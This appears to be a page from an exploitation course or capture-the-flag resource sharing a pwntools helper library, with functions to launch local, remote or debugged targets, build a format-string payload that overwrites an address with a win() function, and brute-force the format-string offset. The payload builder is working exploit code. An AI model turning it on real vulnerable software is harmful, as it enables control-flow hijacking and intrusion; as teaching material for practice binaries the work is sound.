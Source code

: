 <style>#downloads { display: none !important; }</style>

```python
from pwn import *

global p
global elf

def start(prog, args, port=None, gdb_cmd="continue"):
    prog = './' + prog

    context.arch = 'i386'
    context.terminal = ['urxvt', '-e', 'sh', '-c']

    # can be disabled, removes a lot of the annoying output
    context.log_level = 'error'

    if args.REMOTE:
        p = remote('comp6447.wtf', port)
        elf = ELF(prog)

    elif args.GDB:
        p = gdb.debug(prog, gdb_cmd) 
        elf = ELF(prog)

    else:
        p = process(prog)
        elf = p.elf

    return p, elf

def grab(p, start, end):
    p.recvuntil(start)
    return p.recvuntil(end, drop=True)

def pack(msg):
    return bytes(str(msg), 'utf-8')

# overwrites the address at target() with win().
# offset specifies which stack variable you control %{target}$n 
# padding specifies required padding to align the input in the stack variable (one of [0,1,2,3])
def fmtstr_build(win, target, offset, padding):
    payload = b"A" * padding
    payload += p32(target + 0) + p32(target + 1) + p32(target + 2) + p32(target + 3)
    payload += f"%{240 - padding}c".encode()

    for i in range(4):
        byte = win & 0xff
        win >>= 8
        if (byte == 0):
            payload += f"%{offset + i}$hhn".encode()
        else:
            payload += f"%{byte}c%{offset + i}$hhn%{256 - byte}c".encode()

    return payload

def fmtstr_offset(binary, after, padding=0):
    for i in range(1, 20):
        p = process(binary)

        p.sendlineafter(after, f'{b'A' * padding}AAAA%{i}$x'.encode())
        output = p.recvline().decode('utf-8')

        p.close()

        if '41414141' in output:
            return i
```

Then add the folder the lib is stored into your python path:
```bash
export PYTHONPATH="$PYTHONPATH:/folder/location/"
```
You can either run this every time you open a new terminal, or add it to your ~/.bashrc or ~/.zshrc and it will auto-run it everytime.

Finally, you can include this library into your programs with
```python
from lib import *
```